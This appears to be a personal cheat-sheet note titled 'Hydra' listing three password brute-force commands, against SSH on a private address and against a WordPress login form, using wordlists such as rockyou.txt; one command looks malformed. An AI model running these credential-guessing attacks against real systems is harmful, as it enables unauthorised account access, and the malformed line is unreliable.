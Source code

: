 ```yaml
---
title: Hydra
updated: 2020-05-06 03:06:27Z
created: 2019-11-26 19:29:18Z
---
```


- hydra -l user -P pass.txt -t 10 172.21.0.0 ssh -s 22

- hydra -l users.txt -p /usr/share/wordlists/rockyou.txt -t 172.21.0.0 ssh -s 22

- hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'